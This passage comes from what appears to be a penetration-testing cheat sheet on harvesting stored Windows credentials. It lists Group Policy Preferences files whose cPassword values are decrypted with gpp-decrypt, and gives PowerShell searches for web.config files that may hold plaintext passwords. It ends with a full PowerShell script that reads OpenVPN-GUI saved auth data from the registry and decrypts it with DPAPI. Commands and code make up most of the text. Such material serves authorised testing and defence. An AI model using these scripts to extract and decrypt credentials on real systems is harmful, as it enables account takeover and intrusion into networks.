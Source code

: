 Search in ** **_**C:\ProgramData\Microsoft\Group Policy\history** _ or in _**C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history** (previous to W Vista)_ for these files:

* Groups.xml
* Services.xml
* Scheduledtasks.xml
* DataSources.xml
* Printers.xml
* Drives.xml

**To decrypt the cPassword:**

```bash
#To decrypt these passwords you can decrypt it using
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

### IIS Web Config

```bash
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

```
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

Example of web.config with credentials:

```markup
<authentication mode="Forms"> 
    <forms name="login" loginUrl="/admin">
        <credentials passwordFormat = "Clear">
            <user name="Administrator" password="SuperAdminPassword" />
        </credentials>
    </forms>
</authentication>
```

### OpenVPN credentials

```csharp
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}

foreach ($item in $items)
{
  $encryptedbytes=$item.'auth-data'
  $entropy=$item.'entropy'
  $entropy=$entropy[0..(($entropy.Length)-2)]

  $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBytes, 
    $entropy, 
    [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
  Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```
